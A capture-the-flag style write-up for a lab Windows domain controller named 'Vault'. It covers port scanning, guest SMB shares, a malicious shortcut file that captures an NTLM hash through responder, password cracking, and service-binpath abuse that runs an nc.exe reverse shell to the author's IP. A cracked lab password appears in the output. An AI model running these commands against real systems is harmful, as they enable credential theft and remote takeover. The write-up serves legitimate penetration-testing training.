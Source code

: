 # Vault

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.172
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 15:05 +08
Nmap scan report for 192.168.240.172
Host is up (0.18s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49689/tcp open  unknown
49704/tcp open  unknown
```

Loads of ports.&#x20;

### Guest Shares

There were some shares that `smbmap` picked up on with `guest` credentials:

```
$ smbmap -u guest -p '' -H 192.168.240.172                  
[+] IP: 192.168.240.172:445     Name: 192.168.240.172                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DocumentsShare                                          READ, WRITE
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share
```

Within the DocumentsShare share, there was nothing within it:

```
$ smbclient -U guest //192.168.240.172/DocumentsShare 
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul  7 15:06:47 2023
  ..                                  D        0  Fri Jul  7 15:06:47 2023

                7706623 blocks of size 4096. 656179 blocks available
```

There was nothing else about this machine. This reminded me of a few HTB machines where we had to place a malicious file that would trigger a user to click on, which would send requests to our attacker machine and allow us to capture NTLM hashes on `responder`.&#x20;

There a few methods of creating such files, but I used this repository:

{% embed url="https://github.com/dievus/lnkbomb" %}

```
$ python3 lnkbomb.py -t \\192.168.240.172\DocumentsShare -a 192.168.45.216


██      ███    ██ ██   ██ ██████   ██████  ███    ███ ██████
██      ████   ██ ██  ██  ██   ██ ██    ██ ████  ████ ██   ██
██      ██ ██  ██ █████   ██████  ██    ██ ██ ████ ██ ██████
██      ██  ██ ██ ██  ██  ██   ██ ██    ██ ██  ██  ██ ██   ██
███████ ██   ████ ██   ██ ██████   ██████  ██      ██ ██████

                 Malicious Shortcut Generator               
                    A project by The Mayor                  

Malicious shortcut named fuxiylyrbv.url created in the \192.168.240.172DocumentsShare file share.

Recovery file fuxiylyrbv.recovery created in your current directory.

Run python3 lnkbomb.py -r fuxiylyrbv.recovery to remove the file from the target share.

$ mv '\192.168.240.172DocumentsShare\fuxiylyrbv.url' test.url
```

Afterwards, we can place this file within the share and start a `responder` instance, which would immediately capture a hash:

<figure><img src="../../../.gitbook/assets/image (3404).png" alt=""><figcaption></figcaption></figure>

This can be cracked almost instantly:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
SecureHM         (anirudh)     
1g 0:00:00:03 DONE (2023-07-07 15:13) 0.2857g/s 3031Kp/s 3031Kc/s 3031KC/s Seifer@14..Schsutar90
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Then, we can `evil-winrm` in:

<figure><img src="../../../.gitbook/assets/image (2018).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Server Operators -> DA

Our current user was part of the Server Operators group:

```
*Evil-WinRM* PS C:\Users\anirudh\Documents> net user anirudh
User name                    anirudh
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/19/2021 1:59:51 AM
Password expires             Never
Password changeable          11/20/2021 1:59:51 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/17/2023 2:43:54 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

Since we are part of this group, we can do loads of things like manipulate services and what not.&#x20;

```
*Evil-WinRM* PS C:\Users\anirudh\Documents> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"               True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                  True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2111.5-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2111.5-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc
```

We can abuse the VMTools service.

```
sc.exe config VMTools binpath="C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.216 21"
sc.exe stop VMTools
sc.exe start VMTools
```

A SYSTEM shell would spawn on a listener port:

<figure><img src="../../../.gitbook/assets/image (2539).png" alt=""><figcaption></figcaption></figure>

Rooted!
